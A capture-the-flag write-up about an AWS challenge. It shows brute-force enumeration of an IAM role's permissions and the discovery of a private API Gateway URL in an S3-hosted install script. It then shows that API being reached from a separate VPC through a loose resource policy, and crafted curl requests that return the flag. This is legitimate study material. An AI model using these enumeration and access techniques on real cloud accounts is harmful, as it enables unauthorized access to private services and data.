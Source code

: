 # Orchestration but private. Or are they?

## Task

![todo](images/03-01.png)

> Syndicate conducts a lot of private communications, from their internal network. And they love serverless
architecture. With everything you’ve learned, find out more about them.

## Solution

Brute-force enumeration of AWS permissions for the `SecretDataViewerRole` role with [bf-aws-permissions](https://github.com/carlospolop/bf-aws-permissions)
revealed that it has rights to list event source mappings for Lambda functions:

```
➜  ~ bash bf-aws-permissions.sh -p secret-data-viewer -r us-east-1 -v -s lambda
Entity Type: role
Entity Name: SecretDataViewerRole
Attached Policies

An error occurred (AccessDenied) when calling the ListAttachedRolePolicies operation: User: arn:aws:sts::816362139463:assumed-role/SecretDataViewerRole/test is not authorized to perform: iam:ListAttachedRolePolicies on resource: role SecretDataViewerRole because no identity-based policy allows the iam:ListAttachedRolePolicies action

=====================


Inline Policies

An error occurred (AccessDenied) when calling the ListRolePolicies operation: User: arn:aws:sts::816362139463:assumed-role/SecretDataViewerRole/test is not authorized to perform: iam:ListRolePolicies on resource: role SecretDataViewerRole because no identity-based policy allows the iam:ListRolePolicies action

=====================



Checking for simulate permissions...
Current arn: arn:aws:iam::816362139463:role/SecretDataViewerRole

An error occurred (AccessDenied) when calling the SimulatePrincipalPolicy operation: User: arn:aws:sts::816362139463:assumed-role/SecretDataViewerRole/test is not authorized to perform: iam:SimulatePrincipalPolicy on resource: arn:aws:iam::816362139463:role/SecretDataViewerRole because no identity-based policy allows the iam:SimulatePrincipalPolicy action
You don't have simulate permissions!


Do you want to continue with brute-forcing? (y/N): y
[+] You have permissions for: lambda list-event-source-mappings (aws --profile secret-data-viewer --region us-east-1 lambda list-event-source-mappings )
{
    "EventSourceMappings": [
        {
            "UUID": "fbbb4c8f-3fae-42f1-9cfe-d11dcc62b78a",
            "StartingPosition": "LATEST",
            "BatchSize": 100,
            "MaximumBatchingWindowInSeconds": 0,
            "ParallelizationFactor": 1,
            "EventSourceArn": "arn:aws:dynamodb:us-east-1:816362139463:table/UserDetails/stream/2023-12-21T11:27:38.296",
            "FunctionArn": "arn:aws:lambda:us-east-1:816362139463:function:private-api-lambda",
            "LastModified": "2023-12-21T04:35:00-08:00",
            "LastProcessingResult": "No records processed",
            "State": "Enabled",
            "StateTransitionReason": "User action",
            "DestinationConfig": {
                "OnFailure": {}
            },
            "MaximumRecordAgeInSeconds": -1,
            "BisectBatchOnFunctionError": false,
            "MaximumRetryAttempts": -1,
            "TumblingWindowInSeconds": 0,
            "FunctionResponseTypes": []
        }
    ]
}
```

This is cool, but we can't get into the DynamoDB table or the Lambda function any further.

In the `recondatabucket` S3 bucket from the [second challenge](02-orchestration-but-not-really-incognito.md), we can
find the `custom/install.sh` file:

```
➜  ~ aws s3 cp s3://recondatabucket/custom/install.sh -
#!/bin/bash
yum update -y
yum install -y httpd php
systemctl start httpd
systemctl enable httpd
usermod -a -G apache ec2-user
chown -R ec2-user:apache /var/www
chmod 2775 /var/www
find /var/www -type d -exec chmod 2775 {} \;
find /var/www -type f -exec chmod 0664 {} \;
cat << 'EOF' > /var/www/html/index.php
<!DOCTYPE html>
<html>
<body>
    <center>
    <?php
    # Get the instance ID from meta-data and store it in the $instance_id variable
    $url = "http://169.254.169.254/latest/meta-data/instance-id";
    $instance_id = file_get_contents($url);
    # Get the instance's availability zone from metadata and store it in the $zone variable
    $url = "http://169.254.169.254/latest/meta-data/placement/availability-zone";
    $zone = file_get_contents($url);
    # Get Private Secret
    $url = "https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1";
    $secret = file_get_contents($url);
    ?>
    <h2>EC2 Instance ID: <?php echo $instance_id ?></h2>
    <h2>Availability Zone: <?php echo $zone ?></h2>
    </center>
</body>
</html>
EOF
```


The script has a URL for an API Gateway endpoint, but we can't reach it. The code looks like it's pretending to be an
EC2 instance setup script, so maybe that endpoint is only available from the VPC. Unfortunately, we don't have access
into the Syndicate's VPC. But here's the catch with a private API Gateway – if the resource policy is loose, it may be
accessible from any other VPC in the same region.

E.g., per AWS docs https://docs.aws.amazon.com/apigateway/latest/developerguide/apigateway-private-apis.html:

![todo](images/03-02.png)

To try to access the API GW endpoint we need to create an interface VPC endpoint for S3 in `us-east-1`, setup an EC2
instance, launch the instance, connect to it and try to access the API from it. This is also described in one of the
labs on [attackdefense.com](https://attackdefense.com/challengedetailsnoauth?cid=2277).

From our EC2 instance:

```
   ,     #_
   ~\_  ####_        Amazon Linux 2023
  ~~  \_#####\
  ~~     \###|
  ~~       \#/ ___   https://aws.amazon.com/linux/amazon-linux-2023
   ~~       V~' '->
    ~~~         /
      ~~._.   _/
         _/ _/
       _/m/'
Last login: Sun Feb 18 10:07:11 2024 from 18.206.107.27
[ec2-user@ip-172-31-2-113 ~]$ curl https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1
{"success": false, "message": "Method Not Allowed. Only POST requests are allowed."}
```

We were able to access the API! Just need to figure out the right request method and payload format:

```
[ec2-user@ip-172-31-2-113 ~]$ curl -XPOST https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1
{"success": false, "message": "Invalid JSON format in the request body."}

[ec2-user@ip-172-31-2-113 ~]$ curl -XPOST https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1 -d "{}"
{"success": false, "message": "Missing \"invoker_arn\" in request body."}
```

Remember the DynamoDB table and the Lamdba function we saw in the output of the `lambda list-event-source-mappings`
command. Assuming the `private-api-lambda` mimics the API handler, what if we try to pass the DynamoDB table stream
as the invoker ARN? 

```
[ec2-user@ip-172-31-2-113 ~]$ curl -XPOST https://y3xh0xdxee.execute-api.us-east-1.amazonaws.com/dev/v1 -d "{\"invoker_arn\":\"arn:aws:dynamodb:us-east-1:816362139463:table/UserDetails/stream/2023-12-21T11:27:38.296\"}" | jq
{
  "success": true,
  "message": "Request processed successfully.",
  "data": {
    "flag": "FLAG{bba0d3031809f0836177dd70b6c41e8b}"
  }
}
```
